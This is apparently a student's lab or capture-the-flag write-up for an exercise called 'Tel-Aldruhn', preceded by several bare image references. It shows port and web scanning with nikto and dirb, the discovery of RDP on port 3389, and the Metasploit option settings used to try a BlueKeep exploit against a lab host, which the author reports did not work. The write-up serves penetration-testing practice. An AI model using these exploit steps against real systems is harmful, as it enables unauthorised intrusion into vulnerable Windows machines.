







# Exercise 2: Tel-Aldruhn

**Note: followed John-William Tilbury’s walkthrough as I could not figure out an entry point**

Run full scan:

Run nikto on port 80. Meanwhile, visit webpage

No robots.txt webpage

dirb & nikto returns nothing

Port 3389 Windows remote desktop protocol. Connect using remmina: sudo apt install remmina

Check for bluekeep vulnerability

Exploit using bluekeep

use 0  
set rhost 192.168.2.9  
set lhost tun0  
set groomsize 50  
set target 1

Seems like something wrong with .9 machine itself. Perhaps a reset is needed. Otherwise the exploit should’ve worked
